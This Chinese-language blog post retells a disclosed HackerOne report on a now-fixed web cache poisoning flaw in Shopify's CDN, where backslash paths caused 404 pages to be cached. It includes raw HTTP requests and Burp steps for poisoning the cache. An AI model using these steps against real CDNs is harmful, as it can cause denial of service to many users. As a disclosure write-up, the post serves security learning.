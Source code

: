 #  【$3,800】Shopify 缓存中毒导致DoS漏洞披露   
原创 骨哥说事  骨哥说事   2025-06-06 02:58  
  
<table><tbody><tr><td data-colwidth="557" width="557" valign="top" style="word-break: break-all;"><h1 data-selectable-paragraph="" style="white-space: normal;outline: 0px;max-width: 100%;font-family: -apple-system, system-ui, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;letter-spacing: 0.544px;background-color: rgb(255, 255, 255);box-sizing: border-box !important;overflow-wrap: break-word !important;"><strong style="outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="outline: 0px;max-width: 100%;font-size: 18px;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="color: rgb(255, 0, 0);"><strong><span style="font-size: 15px;"><span leaf="">声明：</span></span></strong></span><span style="font-size: 15px;"></span></span></strong><span style="outline: 0px;max-width: 100%;font-size: 18px;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="font-size: 15px;"><span leaf="">文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。</span></span></span></h1></td></tr></tbody></table>#   
  
#   
  
****# 防走失：https://gugesay.com/archives/4425  
  
******不想错过任何消息？设置星标****↓ ↓ ↓**  
****  
#   
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jlbXyV4tJfwXpicwdZ2gTB6XtwoqRvbaCy3UgU1Upgn094oibelRBGyMs5GgicFKNkW1f62QPCwGwKxA/640?wx_fmt=png&from=appmsg "")  
  
# 概要  
  
白帽子在 Shopify 的 CDN 域名上发现了一处 Web 缓存投毒漏洞，其中缓存服务器将反斜杠和正斜杠视为等效，而源服务器对包含反斜杠的路径返回 404 错误。  
  
这种差异允许攻击者使用反斜杠而不是正斜杠发送请求，导致 404 错误被缓存并用于合法请求，从而创建了一个可能导致多个 Shopify 服务受影响的拒绝服务条件。该漏洞通过在所有受影响的 CDN 域名上实施一致的路径处理得到了修复。  
# 复现步骤  
1. 打开 cdn.shopify.com 上托管的任意文件（例如：https://cdn.shopify.com/static/javascripts/vendor/bugsnag.v7.4.0.min.js  
），并使用 Burp Suite 拦截该请求：  
  
```
GET /static/javascripts/vendor/bugsnag.v7.4.0.min.js HTTP/1.1Host: cdn.shopify.comConnection: closeUpgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Accept-Encoding: gzip, deflateAccept-Language: en-US,en;q=0.9
```  
1. 为了使该请求返回 404 错误，首先将 URL 中的斜杠替换为反斜杠  
  
1. 在进行任何测试之前，须在 URL 末尾添加一个缓存破坏器查询参数，以防止对使用该网站的所有用户造成拒绝服务攻击。（例如，在 URL 末尾添加?cachebuster={随机值}  
）,新的请求如下：  
  
```
GET /static\javascripts\vendor\bugsnag.v7.4.0.min.js?cachebuster=123 HTTP/1.1Host: cdn.shopify.comConnection: closeUpgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Accept-Encoding: gzip, deflateAccept-Language: en-US,en;q=0.9
```  
1. 发送此之前的请求将返回 404，并且将具有与 https://cdn.shopify.com/static/javascripts/vendor/bugsnag.v7.4.0.min.js?cachebuster=123  
 相同的缓存键  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jluy3mGFxHnbjiaOAO0WUcpS6o78LIVOhw4fJY9iaRbjz1k9BZMk9LwYseiaF1eK2pejk7KsYEsOXwzg/640?wx_fmt=png&from=appmsg "")  
  
1. 为了缓存该响应，需要在 Burp Repeater 中多次发送损坏请求，或者使用 Burp Intruder 来持续缓存错误页面  
  
1. 现在，尝试在浏览器中打开 https://cdn.shopify.com/static/javascripts/vendor/bugsnag.v7.4.0.min.js?cachebuster=123  
，将显示为 404 错误页面，而不是 javascript 文件  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jluy3mGFxHnbjiaOAO0WUcpSGYOicZAP3N7nlW8epjmtHJufhkJYJjHXYTBOxj3CuiakoaGkiaoQXjsJQ/640?wx_fmt=png&from=appmsg "")  
  
  
同样的漏洞也适用于 shopify-assets.shopifycdn.com，该域名会被其他 Shopify 网站如 accounts.shopify.com 使用。  
# 赏金结算  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jluy3mGFxHnbjiaOAO0WUcpSxpaLnTnD8kmBKSrzYSU4dZfRuDWNYb07lKmoYq04icEIMx693uNHibVQ/640?wx_fmt=png&from=appmsg "")  
  
报告原文：https://hackerone.com/reports/1695604  
  
- END -  
  
**加入星球，随时交流：**  
  
**********（会员统一定价）：128元/年（0.35元/天）******  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/hZj512NN8jnMJtHJnShkTnh3vR3fmaqicPicANic6OEsobrpRjx5vG6mMTib1icuPmuG74h2bxC4eP6nMMzbs5QaSlw/640?wx_fmt=jpeg&from=appmsg "")  
  
**感谢阅读，如果觉得还不错的话，欢迎分享给更多喜爱的朋友～**  
  
